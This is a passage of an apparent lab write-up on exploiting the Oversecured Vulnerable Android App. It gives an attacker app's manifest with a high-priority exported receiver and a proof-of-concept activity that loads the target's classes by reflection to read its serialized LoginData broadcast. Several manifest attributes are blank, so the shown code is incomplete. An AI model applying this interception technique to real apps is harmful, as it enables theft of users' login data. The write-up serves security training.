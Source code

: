 ```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.evil.oversecuredbroadcast"><application
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.MyApplication">
        <receiver
            android:
            android:enabled="true"
            android:exported="true">
            <intent-filter android:priority="999">
                <action android:>
                </action>
            </intent-filter>
        </receiver><activity android:>
            <intent-filter>
                <action android: />
            </intent-filter>
        </activity>
    </application></manifest>
```

But since the extra **payload** contains a LoginData **Serializable objects:**

![](https://miro.medium.com/max/992/1*QykDKjy1e0V8lBq9iJZaEA.png)

We’ll use a [**reflection**](https://www.areizen.fr/post/exploiting_android_application_trough_serialized_intent/) method that will load the oversecured APK packages, loads its Dex and classes inside our Main Activity.

**PoC** of our Main Activity class.

```
package com.evil.oversecuredbroadcast;import androidx.appcompat.app.AppCompatActivity;import android.content.pm.ApplicationInfo;
import android.content.pm.PackageManager;
import android.os.Bundle;import dalvik.system.DexFile;public class MainActivity extends AppCompatActivity {@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Object object = null;
        try{
            PackageManager pm = getPackageManager();
            ApplicationInfo appinfo = pm.getApplicationInfo("oversecured.ovaa",0);
            DexFile df = new DexFile(appinfo.sourceDir);ClassLoader cl = getClassLoader();
            Class cli = df.loadClass("oversecured.ovaa.objects.LoginData",cl);
            object = cli.newInstance();} catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
